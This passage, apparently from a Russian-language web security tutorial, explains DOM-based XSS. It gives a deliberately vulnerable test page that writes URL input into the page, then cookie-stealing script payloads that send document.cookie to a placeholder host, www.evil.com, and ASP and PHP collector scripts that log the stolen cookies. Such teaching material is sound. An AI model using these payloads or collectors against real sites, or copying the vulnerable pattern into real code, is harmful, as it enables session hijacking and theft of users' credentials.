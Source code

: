 HTML код:

```html
<html>
<head>
    <title>DOM-XSS test</title>
</head>
<body>
<script>
    var a = document.URL;
    document.write(a.substring(a.indexOf("a=") + 2, a.length));
</script>
</body>
</html>
```

Сохраните код в domXSS.html, доступ через браузер:

```text
http://127.0.0.1/domXSS.html?a=<script>alert('XSS')</script>
```

Вы можете вызвать уязвимость XSS.

## Использование XSS

### Кража файлов cookie

Злоумышленник может использовать следующий код для получения информации cookie клиента:

```html
<script>
    document.location = "http://www.evil.com/cookie.asp?cookie=" + document.cookie
    new Image().src = "http://www.evil.com/cookie.asp?cookie=" + document.cookie
</script>
<img src="http://www.evil.com/cookie.asp?cookie=" +document.cookie></img>
```

На удаленном сервере есть файл, который принимает и записывает информацию о файлах cookie, например:

```asp
<%
  msg=Request.ServerVariables("QUERY_STRING")
  testfile=Server.MapPath("cookie.txt")
  set fs=server.CreateObject("Scripting.filesystemobject")
  set thisfile=fs.OpenTextFile(testfile,8,True,0)
  thisfile.Writeline(""&msg& "")
  thisfile.close
  set fs=nothing
%>
```

```php
<?php
$cookie = $_GET['cookie'];
$log = fopen("cookie.txt", "a");
fwrite($log, $cookie. "\n");
fclose($log);
?>
```
